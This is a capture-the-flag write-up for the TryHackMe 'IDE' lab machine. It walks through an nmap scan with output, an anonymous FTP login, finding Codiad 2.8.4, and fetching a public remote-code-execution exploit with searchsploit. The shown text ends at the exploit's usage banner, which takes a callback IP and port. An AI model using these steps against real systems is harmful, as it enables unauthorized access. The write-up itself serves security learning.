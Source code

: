 # IDE | THM
### Difficulty Level: Easy
-------------------------------------------------

![image](https://cdn-images-1.medium.com/max/1000/1*Yo40ffh6pfA0xQPrlNkdiQ.png)

First, nmap scan to enumarate the system and save the output into a file:

```
nmap -p- -T4 -A -sC -sV  10.10.36.144 -oN nmap.txt
```

-p- Which means scan all ports instead of the 1000 common ports.

-T4 - Controls the timing of the scan. On that case, level 4 to make it aggresive and fast.   

-A - Aggresive scan. 

-sC - Deafult nmap script. 

-sV - Services version. 

-oN - Saves the output into a file. 

```bash
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-03-11 16:07 EDT
Nmap scan report for 10.10.36.144
Host is up (0.11s latency).
Not shown: 65531 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.9.198.161
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e2:be:d3:3c:e8:76:81:ef:47:7e:d0:43:d4:28:14:28 (RSA)
|   256 a8:82:e9:61:e4:bb:61:af:9f:3a:19:3b:64:bc:de:87 (ECDSA)
|_  256 24:46:75:a7:63:39:b6:3c:e9:f1:fc:a4:13:51:63:20 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
62337/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Codiad 2.8.4
|_http-server-header: Apache/2.4.29 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=3/11%OT=21%CT=1%CU=39457%PV=Y%DS=2%DC=T%G=Y%TM=65EF
OS:664F%P=x86_64-pc-linux-gnu)SEQ(SP=FE%GCD=1%ISR=10E%TI=Z%CI=Z%TS=A)SEQ(SP
OS:=FE%GCD=1%ISR=10F%TI=Z%CI=Z%TS=A)SEQ(SP=FF%GCD=1%ISR=10E%TI=Z%CI=Z%II=I%
OS:TS=A)SEQ(SP=FF%GCD=1%ISR=10F%TI=Z%CI=Z%TS=A)SEQ(SP=FF%GCD=1%ISR=10F%TI=Z
OS:%CI=Z%II=I%TS=A)OPS(O1=M508ST11NW7%O2=M508ST11NW7%O3=M508NNT11NW7%O4=M50
OS:8ST11NW7%O5=M508ST11NW7%O6=M508ST11)WIN(W1=F4B3%W2=F4B3%W3=F4B3%W4=F4B3%
OS:W5=F4B3%W6=F4B3)ECN(R=Y%DF=Y%T=40%W=F507%O=M508NNSNW7%CC=Y%Q=)T1(R=Y%DF=
OS:Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%
OS:F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y
OS:%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%R
OS:D=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)I
OS:E(R=Y%DFI=N%T=40%CD=S)

Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   156.10 ms 10.9.0.1
2   157.85 ms 10.10.36.144

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 488.51 seconds
```
There are 4 open ports:

21 - FTP

22 - SSH

80 - HTTP

62337 - HTTP 

Start with FTP. There is Anonymous FTP login which means entry to FTP server without any credentials.

```bash
ftp anonymous@10.10.36.144
```

![image](https://cdn-images-1.medium.com/max/1000/1*MVloOCGmve8YyXK4X_TTDQ.png)

As we can see, there is nothing. At least there is easy way to upload scripts and files to this machine with "push" command.
Let's move on to the browser and see what is the results of port 80.

![image](https://cdn-images-1.medium.com/max/1000/1*Hrz8Xm3kkwlF9JzIOuw9bw.png)

There is apache default page. On other cases, I used to keep scanning it with gobuster to enumarate other directories on the system.
But there is another port that runs HTTP service on it so let's check it:

```
http://<machine-address>:62337
```

![image](https://cdn-images-1.medium.com/max/1000/1*gpiBdpXmt5DCKZC__qVyOQ.png)

There is login page to codiad v2.8.4

What is codiad?
Codiad is an open-source web-based integrated development environment (IDE).

I tried some default credentials but without any success.
The next step is to check if there is any CVE to this codiad version to exploit with serachsploit.

```
searchsploit codiad 2.8.4
```

![image](https://cdn-images-1.medium.com/max/1000/1*sUkIiY8Sby0fFbYnDMXzXQ.png)

Grab the exploit into your machine:

```
searchsploit -m 49705.py
```

CVE-2018-14009: 
This exploit allows RCE on codiad v2.8.4.

While execute it, there is a banner with usage information.

```
python3 49705.py
Usage : 
        python 49705.py [URL] [USERNAME] [PASSWORD] [IP] [PORT] [PLATFORM]
        python 49705.py [URL:PORT] [USERNAME] [PASSWORD] [IP] [PORT] [PLATFORM]
Example : 
        python 49705.py http://localhost/ admin admin 8.8.8.8 8888 linux
        python 49705.py http://localhost:8080/ admin admin 8.8.8.8 8888 windows
Author : 
        WangYihang <wangyihanger@gmail.com>
```


































